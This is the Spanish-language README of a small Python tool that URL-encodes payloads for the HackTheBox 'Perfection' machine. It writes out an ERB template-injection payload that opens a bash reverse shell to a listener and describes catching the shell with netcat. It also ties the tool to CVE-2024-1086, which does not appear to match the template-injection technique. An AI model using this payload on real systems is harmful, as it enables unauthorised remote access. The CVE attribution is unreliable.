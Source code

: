 # URL CODER
Generador de ruta codificada para la vulnerabilidad CVE-2024-1086, utilizada en la maquina perfeccion de HTB, puede ser utilizado para otras auditorias


## Authors

- [@Mudoleto](https://www.github.com/Mudoleto)



## Como utilizarlo
Para utilizar el script debera ejecutar solamente el que tenga por nombre "perfeccion.py":

```python
python3 perfeccion.py 
```
Y pedira que ingrese alguna palabra que desea codificar:

[![image.png](https://i.postimg.cc/8Crqtv9P/image.png)](https://postimg.cc/hJcyGXKH)

Si bien puede omitir la parte de 'test' puede que sea necesaria en caso que necesites hacer peticiones ala maquina que permita la entrada de comandos, pongamos el ejemplo que deseamos que la victima ejecute una revershell con bash.

```python
<%= system("bash -c 'exec bash -i >& /dev/tcp/0.0.0.0/8000 0>&1'") %>
```
[![image.png](https://i.postimg.cc/gjqCWPHw/image.png)](https://postimg.cc/SYRT635q)

Si utilizamos este comando codificado y teniendo nc ala escucha en el puerto 8000 podremos obtener una conexion con la maquina.

##  🛠 Herramientas usadas

-Lenguajes utilizados:
    
    +Python

[![image.png](https://i.postimg.cc/wMMqxV0c/image.png)](https://postimg.cc/JHwVPbwG)